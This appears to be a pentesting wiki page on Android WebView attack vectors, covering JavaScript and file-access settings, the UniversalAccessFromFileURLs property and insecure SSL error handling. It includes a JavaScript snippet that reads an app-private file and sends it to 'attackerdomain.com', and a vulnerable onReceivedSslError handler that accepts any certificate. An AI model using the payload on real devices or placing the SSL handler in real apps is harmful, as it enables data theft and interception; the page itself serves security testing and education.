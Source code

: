 # Webview Attacks

## Javascript Enabled

_WebViews_ have _Javascript_ disabled by default. The method [_setJavaScriptEnabled\(\)_](https://developer.android.com/reference/android/webkit/WebSettings.html#setJavaScriptEnabled%28boolean%29) is available for explicitly enabling or disabling it.

## File Access

_WebView_ file access is enabled by default. Since API 3 \(Cupcake 1.5\) the method [_setAllowFileAccess\(\)_](https://developer.android.com/reference/android/webkit/WebSettings.html#setAllowFileAccess%28boolean%29) is available for explicitly enabling or disabling it.

If the application has _android.permission.READ\_EXTERNAL\_STORAGE_ it will be able to read and load files from the external storage.

The _WebView_ needs to use a File URL Scheme, e.g., `file://path/file`, to access the file.

## CORS - Cross Origin Resource Sharing

**If you want to**[ **learn what is CORS please read this post**](../../pentesting-web/cors-bypass.md)**.**

There is a very important property called _**UniversalAccessFromFileURLs**_ **that allows SOP bypass**. This property indicates whether _Javascript_ running in the context of a file scheme can **access content from any origin**. This property is enabled by default below API 16 \(Jelly Bean 4.1.x\) and there is no way to disable it on those API levels \[[1](https://labs.integrity.pt/articles/review-android-webviews-fileaccess-attack-vectors/index.html#note1)\]. In API 16 \(Jelly Bean 4.1.x\) and afterwards the property is **disabled by default**. The method [_**setAllowUniversalAccessFromFileURLs\(\)**_](https://developer.android.com/reference/android/webkit/WebSettings.html#setAllowUniversalAccessFromFileURLs%28boolean%29) **\*\*was also made available to explicitly** enable or disable this feature\*\*.

## Scenarios

### Javascript Enabled & FileSystemAccess Disabled

In this scenario an attacker is able to **inject Javascript code** inside the web page opened via **webview** by the victim. This could be done maybe via **XSS** or making the webview **load** a **malicious HTML** page stored inside the phone.  
This **webview has Javascript enabled** but no access to the file system.

In this scenario the attacker **won't be able to read local files**, but depending on the permissions of the application this **could allow an attacker to interact with the functionality of the device** \(read SMS, microphone recording etc.\) exposing the security of the application and the device itself into great risk.

### Javascript Enabled & FileSystemAccess enabled

The scenario is like the one mentioned previously but the **webview now have FileSystem access**.  
An attacker could try to ex-filtrate files with javascript code like:

```javascript
var xhr = new XMLHttpRequest();
xhr.onreadystatechange = function() {
    if (xhr.readyState == XMLHttpRequest.DONE) {
    window.location.replace('https://attackerdomain.com/?exfiltrated='+xhr.responseText);
    }
}
xhr.open('GET', 'file:///data/data/pt.integrity.labs.webview_remote/files/sandbox_file.txt', true);
xhr.send(null);
```

So **even with file access enabled** in the _WebView_, due to the fact that the file scheme request is considered a **Cross Origin Request** and hence **disallowed**, the attacker will **not be able to exfiltrate** files this way.

Note that if the **attacker is able to control the mobile** where the vulnerable application is running, he could be able to abuse it to **make it load the internal file and see it**. In this case the CORS isn't stopping the attack because the attacker is **directly accessing the file instead of trying to access it from a different origin**.

**CORS related errors looks like this:**

```javascript
05-09 12:38:59.306 27768 27768 I chromium: [INFO:CONSOLE(20)] “Failed to load file:///data/data/pt.integrity.labs.webview_remote/files/sandbox_file.txt: Cross origin requests are only supported for protocol schemes: http, data, chrome, https.”, source: https://labs.integrity.pt/ (20)
```

### Javascript Enabled, FileSystemAccessEnabled & CORS Disabled

In this scenario, using the same Javascript payload, you will finally **be able to ex-filtrate internal files.**

## **SSL Error Handling**

The code below instructs the WebView client to **proceed when an SSL error occur**. This means that the **application is vulnerable to MiTM attacks** as it could allow an attacker to read or modify content that is displayed to the user since any certificate would be accepted by the application.

```javascript
@Override
public void onReceivedSslError(WebView view, SslErrorHandler handler,
SslError error)
{
    handler.proceed();
}
```

## **References**

* \*\*\*\*[**https://labs.integrity.pt/articles/review-android-webviews-fileaccess-attack-vectors/index.html**](https://labs.integrity.pt/articles/review-android-webviews-fileaccess-attack-vectors/index.html)\*\*\*\*
* \*\*\*\*[**https://pentestlab.blog/2017/02/12/android-webview-vulnerabilities/**](https://pentestlab.blog/2017/02/12/android-webview-vulnerabilities/)\*\*\*\*

